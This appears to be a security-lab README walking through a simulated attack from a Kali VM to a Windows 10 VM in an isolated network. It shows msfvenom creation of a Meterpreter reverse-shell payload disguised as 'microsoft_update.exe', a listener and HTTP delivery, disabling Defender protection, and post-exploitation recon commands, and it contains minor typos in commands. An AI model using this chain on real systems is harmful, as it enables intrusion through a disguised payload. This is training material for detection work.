





# Attack Walkthrough

This is document details the simulated attack from the **Kali Linux Attacker VM** to the **Windows 10 Victim VM**, including payload delivery, successful compromise, command execution, and detection in **Splunk**.

**Lab Context**
- Attacker: Kali Linux VM - IP: `192.168.20.11`
- Victim: Windows 10 VM with **Sysmon** + **Splunk Enterprise** - IP: `192.168.20.12`
- Network: Isolated VirtualBox [Internal] Network
- Goal: Simulate a realistic attack chain and validate detection capabilities

**⚠️ Important Notes**
- All activities were performed in an **isolated lab environment** with no internet access to the victim during testing. 
- No real malware was used - only safe, educational payloads for demonstration. 
- Take a VM snapshot before starting the attack

## 1. Preparation on Attacker (Kali Linux)

1. Scan the ports and information of the target machine
    ```bash
    nmap -A -Pn -n 192.168.20.12
    ```


2. List the available payloads and create one for exploit
    ```bash
    msfvenom -l payloads
    ```


    ```bash
    msfvenom -p windows/c64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=3344 -f exe -o microsoft_update.exe
    ```


3. Set up a listener
    ```bash
    msfconsole

    msf> use exploit/multi/handler
    msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp 

    msf exploit(multi/handler) > set lhost 192.168.20.11
    msf exploit(multi/handler) > exploit
    ```

    

4. Set up http server
Open another terminal in Linux and use python to establish a temporary server
*Note: Make sure the new terminal is under the same directory as the payload. Use `ls` to verify

    ```bash
    python3 -m http.server 9999
    ```


## 2. Delivery and Execution on Windows 10 Victim
1. Turn of the Firewall on Windows 10 
    - Find the search box of Taskbar
    - Type `Windows Security`
    - Click `Virus & threat Protection`
    - Click `Manage Settings`
    - Turn off the `Real-time protection`



2. Download the malware from Attacker
    - Open `Microsoft Edge` browser
    - Type `192.168.20.11:9999`
    - Click `microsoft_update.exe` for download 



3. Malware Execution
    - Double Click `Downloads/microsoft_update.exe` in Windows
    - Click `Run` if prompt `SmartScreen can't be reached right now`
    - Open `Command Prompt` with administrator privilege
    - Type the following command
    ```bash
    C:\Windows\system32>nestat -anob
    ```


4. Post-Exploitation / Command & Control
When the malware is executed successfully, a reverse shell can be opened for command and control in Kali. 
Go back to Kali, Meterpreter is ready for ongoing invasion. The following commands were executed in the reverse shell 
```bash
shell

whoami
ipconfig
systeminfo
net user
net localgroup
```

